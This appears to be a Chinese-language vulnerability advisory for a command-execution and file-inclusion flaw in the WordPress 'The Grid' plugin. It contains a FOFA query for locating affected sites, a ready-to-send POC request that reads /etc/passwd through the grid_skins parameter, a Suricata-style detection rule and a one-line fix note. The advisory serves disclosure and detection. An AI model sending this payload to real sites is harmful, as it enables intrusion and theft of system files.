

# WordPress The Grid 插件存在远程命令执行漏洞CVE-2026-94169

WordPress The Grid 插件存在远程命令执行漏洞CVE-2026-94169

# 影响版本

The Grid plugin \<\= 2.8.1

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   body\="/wp-content/plugins/the-grid/"

**POC/EXP：**

**step1**  命令执行

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 256
Content-Type: application/x-www-form-urlencoded

action=the_grid_load_more&grid_nonce=invalid&grid_page=1&grid_name=33322211&grid_data[item_number]=1&grid_data[grid_skins][evil][php]=/etc/passwd&grid_data[grid_skins][evil][type]=grid&grid_data[grid_skins][evil][slug]=evil&grid_data[skins]={"post":"evil"}
```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"WordPress The Grid - admin-ajax.php grid_skins 远程命令执行漏洞 (CVE-2026-94169)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/wp-admin/admin-ajax.php";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"action=the_grid_load_more"; nocase;
        content:"grid_skins"; nocase; distance:0; within:100;
        content:"|5b|php|5d|="; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "WordPress Plugin The Grid",
        vulnerability_type "Remote Code Execution (File Inclusion)",
        severity "critical",
        reference "CVE-2026-94169";
    classtype:web-application-attack;
    sid:1000833;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
